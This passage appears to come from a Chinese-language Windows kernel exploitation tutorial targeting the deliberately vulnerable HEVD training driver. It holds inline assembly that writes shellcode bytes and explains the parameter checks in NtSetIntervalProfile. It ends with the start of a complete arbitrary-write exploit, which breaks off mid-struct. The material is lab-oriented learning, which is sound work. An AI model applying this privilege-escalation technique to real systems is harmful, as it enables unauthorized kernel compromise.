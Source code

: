 ```
        mov dword ptr[edi + 0x31], 0x00B82D00;
        mov dword ptr[edi + 0x35], 0x90390000;
        mov dword ptr[edi + 0x39], 0x000000B4;
        mov dword ptr[edi + 0x3D], 0x908BED75;
        mov dword ptr[edi + 0x41], 0x000000F8;
        mov dword ptr[edi + 0x45], 0x00F89189;
        mov dword ptr[edi + 0x49], 0x31610000;
        mov dword ptr[edi + 0x4D], 0x0000C3C0;
        mov dword ptr[edi + 0x51], eax;
        mov dword ptr[edi + 0x55], ebx;
        popad;
    }

```

Shellcode 如下：

 

![](https://bbs.pediy.com/upload/attach/202107/817966_3AFEDARCVT35BPP.jpg)

 

`NtSetIntervalProfile`函数定义如下：

```
NTSTATUS
NtSetIntervalProfile (
    ULONG Interval,
    KPROFILE_SOURCE ProfileSource);

```

其对参数判断位于`KeSetIntervalProfile`函数内，首先校验`nt!PerfGlobalGroupMask+0x4`：

 

![](https://bbs.pediy.com/upload/attach/202107/817966_53KEYM29UK5FUFR.jpg)

 

其次判断`ProfileSource`是否为 0 及是否为 1：

 

![](https://bbs.pediy.com/upload/attach/202107/817966_HK7CXV6W7GMEFJ5.jpg)

 

上述两种方式思想相同，只是具体实现方式略有不同，两种方式完整 Exploit 如下：

```
//HalSetSystemInformation
#include #include #include using namespace std;
 
#define IOCTL(Function) CTL_CODE(FILE_DEVICE_UNKNOWN, Function, METHOD_NEITHER, FILE_ANY_ACCESS)
#define HEVD_IOCTL_ARBITRARY_WRITE                               IOCTL(0x802)
 
typedef struct SYSTEM_MODULE {
    ULONG                Reserved1;
    ULONG                Reserved2;
    PVOID                ImageBaseAddress;
    ULONG                ImageSize;
    ULONG                Flags;
    WORD                 Id;
    WORD                 Rank;
    WORD                 LoadCount;
    WORD                 NameOffset;
    CHAR                 Name[256];
}SYSTEM_MODULE, * PSYSTEM_MODULE;
 
typedef struct SYSTEM_MODULE_INFORMATION{
```